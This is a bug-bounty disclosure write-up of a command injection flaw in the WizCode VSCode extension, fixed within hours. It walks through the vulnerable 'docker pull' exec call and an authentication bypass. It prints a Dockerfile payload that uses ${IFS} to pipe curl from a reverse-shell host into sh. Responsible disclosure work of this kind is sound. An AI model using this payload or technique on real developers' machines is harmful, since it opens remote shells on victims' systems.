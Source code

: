 ```yaml
---
layout: post
title: "Command Injection Vulnerability in VSCode Extension for WizCode and Wiz (legacy)s"
author: rohitcoder
categories: [ XSS ]
tags: [ BugBounty, command-execution, owasp, RCE, vscode ]
image: https://i.imgur.com/ztGKh6W.jpeg
featured: true
hidden: false
---
```


  [![WIZ POC](https://img.youtube.com/vi/vtF2U6B75R0/2.jpg)](https://www.youtube.com/watch?v=vtF2U6B75R0)

Executive Summary
-----------------

While exploring Wiz's new VSCode extension, I discovered a command injection vulnerability that could allow command execution on workstations running the extension under specific conditions. The vulnerability was reported to Wiz's security team and was fixed within 3.5 hours, with no impact on customers or data. Users are advised to update to the latest version as outlined in Wiz's [security advisory](https://www.wiz.io/security-advisories).

Background
----------

On September 10, 2024, I came across Wiz's announcement of *WizCode*, a tool designed to scan source code for security vulnerabilities as part of their "Code to Cloud" framework. As someone deeply involved in evaluating various automated source code security tools, I was intrigued by their approach, especially whether they were using Abstract Syntax Trees (AST), Control Flow Graphs (CFG), Data Flow Graphs (DFG), Code Property Graphs (CPG), or a hybrid method.

Analyzing Wiz IDE Extension
-------------------------------

The next day, I installed several IDE extensions from different vendors for comparison, starting with *Lacework* and then *WizCode*. I located the local code paths of these extensions and ran them through an internal SAST tool I developed, which quickly flagged a **command injection vulnerability** within the *WizCode* and *Wiz (legacy)* IDE extension.

Bypassing Authentication Checks
-------------------------------

To exploit this vulnerability, I needed an active Wiz subscription, which I didn't have. I decided to reverse-engineer the extension to bypass the authentication checks. By tracing the call flow and modifying a few functions, I bypassed the authentication mechanism and triggered the vulnerability locally.

Vulnerable Code Analysis
------------------------

In the file `scan.js`, the following function caught my attention:

```
pullDockerImage(args1, args2, args3)
```

The `args3` parameter was an array of Docker images to be scanned. This array was passed to a `docker pull` command using `child.exec`:

```
docker pull {$image_name}
```

The images array was computed using:

```
const imageName = lineText.startsWith("FROM") ? lineText.includes("--platform=") ? lineText.split(" ")[2] : lineText.split(" ")[1] : "";
```

This logic extracted the base image from a Dockerfile, and our attack payload would be inserted here.

### Overcoming Payload Restrictions

One major challenge was that the payload couldn't contain spaces. To bypass this, I used `${IFS}` (Internal Field Separator), which acts as a space in Unix-based command-line interpreters.

### Crafting the Payload

After bypassing authentication and command restrictions, I crafted the following payload:

```
FROM python:3.9.20-slim-bullseye;curl${IFS}https://reverse-shell.sh/X.X.X.X:1337${IFS}|${IFS}sh
```

This payload instructed WizCode to pull the Python image and execute a reverse shell command. I tested it by embedding it in a Dockerfile hosted on a Git repository. When a colleague opened the file in their IDE, I successfully gained access to their system.

Security Considerations and Controls
----------------------------------
- **Scan Doesn’t Happen Automatically**: To trigger a scan for Docker images, the user needs to manually initiate it, they'll see a "Scan" option, when they open any Docker image, and the moment they start scan, attacker gets access. This requirement helps limit the chances of accidental exploitation, as scans are not performed automatically.

- **Authors & Folder Should Be Trusted**: If the code is already trusted or is internal, VS Code won’t ask for trust settings, allowing extensions to run without interruptions. However, if you download any random or external code, VS Code will prompt, "Do you trust the authors of the files in the folder?" If the path isn't trusted and the user selects "No, I don’t trust the authors. Browse folder in restricted mode," the extension will not run on that code, effectively preventing any unauthorized execution. This is a security control implemented by VS Code itself, offering an additional layer of protection.

Proof of Concept (PoC)
----------------------

A video demonstrating the PoC was shared with the Wiz security team: <https://youtu.be/vtF2U6B75R0>.

Vulnerability Disclosure Timeline
---------------------------------

-   **2024-09-11 13:44** - Reported the vulnerability to Wiz's security team.
-   **2024-09-11 14:08** - Wiz Engineering validated the issue and started working on a fix.
-   **2024-09-11 14:18** - Wiz Security Team acknowledged the issue via email.
-   **2024-09-11 17:11** - Fixed version of the extension published on the VS Code Marketplace.

Remediation
-----------

Please upgrade to the latest version of the Wiz Code & Wiz extension as recommended in their [security advisory](https://www.wiz.io/security-advisories). Contact the Wiz security team for further assistance.

Conclusion
----------

The vulnerability was responsibly disclosed and has been patched by Wiz. No other parties exploited this issue, and all sensitive information was kept confidential. Wiz's quick response and collaboration were commendable.

End Note
---------
I discovered this security issue during my ongoing research on source code security vendors and major open-source libraries. Additionally, I found a few more critical command execution vulnerabilities in other vendors, and I’ll be publishing a detailed writeup soon. You can follow my updates or connect for future collaborations on LinkedIn at https://www.linkedin.com/in/rohitcoder/ or GitHub at https://github.com/rohitcoder.

